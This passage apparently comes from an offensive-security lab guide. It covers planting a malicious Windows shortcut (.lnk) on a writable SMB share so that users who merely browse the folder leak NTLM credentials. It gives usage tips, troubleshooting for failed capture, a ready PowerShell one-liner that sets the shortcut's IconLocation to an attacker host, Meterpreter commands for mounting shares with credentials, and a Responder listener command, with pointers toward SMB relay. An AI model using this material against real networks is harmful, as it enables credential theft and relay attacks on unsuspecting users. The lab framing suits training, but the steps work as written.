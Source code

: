 - **Any writable share works** (file servers, “Public”, department shares). DC-hosted writable shares (like `\\HYDRA-DC\hackme`) exist mainly for **lab exercises**.
- You **do not** need the victim to **click** the `.lnk`. **Viewing** the folder triggers the icon fetch.
- Pair with **SMB relay** (`ntlmrelayx.py`) if SMB signing is disabled on targets you care about.
- Run your “passive traps” (Responder, relay) **in the background** while you continue other lab tasks.

---

## Troubleshooting

- **No file created / `DirectoryNotFoundException`**  
  Check the **real backing path** or UNC is correct; create the directory or use a valid share.
- **Impacket/Responder never sees traffic**  
  - Wrong **attacker IP** in `IconLocation`.  
  - Network path blocked from victim → attacker.  
  - You looked at the share from the **same machine** hosting the share (no SMB out).
- **User clicks but no creds captured**  
  If `IconLocation` points to a **local** DLL (e.g., `shell32.dll,70`), there’s **no SMB** to attacker. Use UNC for capture.
- **Access denied on share**  
  You don’t have write permissions. Try another share or different credentials.
- **EDR/AV interferes**  
  In some enterprise configs, SMB or icon fetches may be filtered/logged—expected in harder labs.

---

## One-Liners (Handy)

**Create `.lnk` in share (single line for `powershell_execute`):**
```powershell
$a='192.0.2.10';$d='\\\\TARGET-SERVER\\\\hackme\\\\readme.lnk';$s=New-Object -ComObject WScript.Shell;$l=$s.CreateShortcut($d);$l.TargetPath='cmd.exe';$l.Arguments='/c exit';$l.WorkingDirectory=$env:SystemRoot+'\\System32';$l.IconLocation='\\\\'+$a+'\\icon\\foo.ico';$l.Description='Readme';$l.Save()
```

**Meterpreter usage:**
```text
meterpreter > shell
net view \\TARGET-SERVER
net use Z: \\TARGET-SERVER\hackme /user:DOMAIN\username Password1
echo test > Z:\writetest.txt
net use Z: /delete
powershell -NoProfile
# paste script, then:
# CTRL+Z, y
meterpreter > shell
dir \\TARGET-SERVER\hackme
```

**Kali listener (Responder):**
```bash
sudo responder -I eth0 -dwv
```
